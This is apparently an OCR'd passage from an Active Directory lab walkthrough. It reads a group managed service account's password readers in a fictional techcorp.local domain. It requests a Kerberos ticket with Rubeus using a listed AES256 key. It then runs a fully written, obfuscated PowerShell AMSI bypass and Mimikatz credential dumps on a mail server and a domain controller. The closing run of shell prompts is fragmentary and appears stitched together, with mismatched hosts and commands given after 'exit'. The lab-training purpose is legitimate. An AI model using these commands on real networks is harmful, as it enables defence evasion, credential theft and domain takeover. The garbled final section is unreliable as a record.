 ```
PS C:\AD\Tools> Get-ADServiceAccount -Filter *

DistinguishedName : CN=jumpone,CN=Managed Service Accounts,DC=us,DC=techcorp,DC=local
Enabled           : True
Name              : jumpone
ObjectClass       : msDS-GroupManagedServiceAccount 📌
ObjectGUID        : 1ac6c58e-e81d-48a8-bc42-c768d0180603
SamAccountName    : jumpone$ 👤
SID               : S-1-5-21-210670787-2521448726-163245708-8601
UserPrincipalName :
```

- Enumerate the principals that can read passwords from any gMSAs

```
PS C:\AD\Tools> Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword

PrincipalsAllowedToRetrieveManagedPassword
------------------------------------------
{CN=provisioning svc 👤,CN=Users,DC=us,DC=techcorp,DC=local}
```

- Compromise one such principal and retrieve the password from a gMSA

Recall from previous hands-on (#09) that we got secrets of `provisioningsvc` from `us-mailmgmt`.

Start a new process as the `provisioningsvc` user.
Run the below command from an elevated cmd shell.

```
C:\Windows\system32> C:\AD\Tools\ArgSplit.bat

[!] Argument Limit: 180 characters
[+] Enter a string: asktgt

[SNIP]
```

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:provisioningsvc /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  provisioningsvc
  UserRealm                :  US.TECHCORP.LOCAL
  StartTime                :  4/27/2025 10:31:51 AM
  EndTime                  :  4/27/2025 8:31:51 PM
  RenewTill                :  5/4/2025 10:31:51 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  pOmn0/oSZo+F9jOSpoqp139XilgxPnJcGhf0SzIp6v8=
  ASREP (key)              :  A573A68973BFE9CBFB8037347397D6AD1AAE87673C4F5B4979B57C0B745AEE2A
```

[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'
